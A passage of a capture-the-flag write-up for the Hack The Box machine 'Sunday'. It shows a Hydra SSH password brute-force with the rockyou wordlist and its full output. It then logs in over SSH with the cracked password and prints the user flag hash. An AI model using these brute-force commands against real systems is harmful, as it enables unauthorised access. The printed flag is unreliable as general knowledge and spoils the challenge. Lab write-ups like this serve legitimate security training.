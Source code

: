 ![[Sunday-02.png]]

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Sunday]
└─$ hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-03 15:04:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[STATUS] 133.00 tries/min, 133 tries in 00:01h, 14344270 to do in 1797:32h, 12 active
[STATUS] 103.33 tries/min, 310 tries in 00:03h, 14344093 to do in 2313:34h, 12 active
[STATUS] 95.14 tries/min, 666 tries in 00:07h, 14343737 to do in 2512:40h, 12 active
[STATUS] 92.40 tries/min, 1386 tries in 00:15h, 14343017 to do in 2587:08h, 12 active
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-03 15:30:46

```
Excellent. we will know password for sunny is `sunday` which could be guessed by ourself.

# Ininitial ssh shell

```bash
ssh sunny@10.10.10.76 -p 22022
sunday
```

Very nice, we are in. Let's capture the user flag.

```bash
id
whoami
# change the directory
cd /home/sammy
cat user.txt
# flag
a3d9498027ca5187ba1793943ee8a598
```

![[Sunday-03.png]]

# Privilege Escalation

